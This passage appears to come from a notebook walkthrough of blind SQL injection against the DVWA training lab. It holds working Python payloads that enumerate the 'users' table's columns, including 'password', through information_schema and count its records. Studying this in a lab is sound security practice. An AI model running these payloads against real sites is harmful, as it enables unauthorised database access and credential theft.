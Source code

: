 To find the columns in the 'users' table, we'll use a wordlist of the most common column names.
The wordlist has been downloaded from  ==> https://github.com/drtychai/wordlists/blob/master/sqlmap/common-columns.txt


```python
columns_found = []
wordlist_of_columns = "wordlist/colonnes.txt"
sql_start = "' OR EXISTS (SELECT 1 FROM information_schema.columns WHERE table_schema = 'dvwa'  AND table_name = 'users' AND column_name = '"
sql_end = "') -- -"
columns_found = send_request_with_wordlist(wordlist_of_columns, sql_start, sql_end)

print("columns found in the users table are : ")
print(columns_found)
```

    [FOUND] =  user_id
    [FOUND] =  first_name
    [FOUND] =  last_name
    [FOUND] =  password
    [FOUND] =  user
    [FOUND] =  last_login
    [FOUND] =  user_id
    [FOUND] =  password
    [FOUND] =  user
    [FOUND] =  avatar
    columns found in the users table are : 
    ['user_id', 'first_name', 'last_name', 'password', 'user', 'last_login', 'user_id', 'password', 'user', 'avatar']



```python
list_columns_found = list(set(columns_found))
print("List of columns found : ")
print(list_columns_found)
```

    List of columns found : 
    ['user', 'user_id', 'password', 'last_login', 'first_name', 'last_name', 'avatar']


### 5. Records in the users table


```python
line_count = 0
for i in range(0, 100): 
    id_param = "' OR "+str(i)+ " IN (SELECT COUNT(*) FROM users)  -- -"
    params = {
        'id': id_param,
        'Submit': 'Submit',
    }
    response = requests.get(url,params=params,cookies=cookies,headers=headers)
    if response.status_code == 200:
        line_count = i
        break
print("Number of records in users table = ", line_count)
```
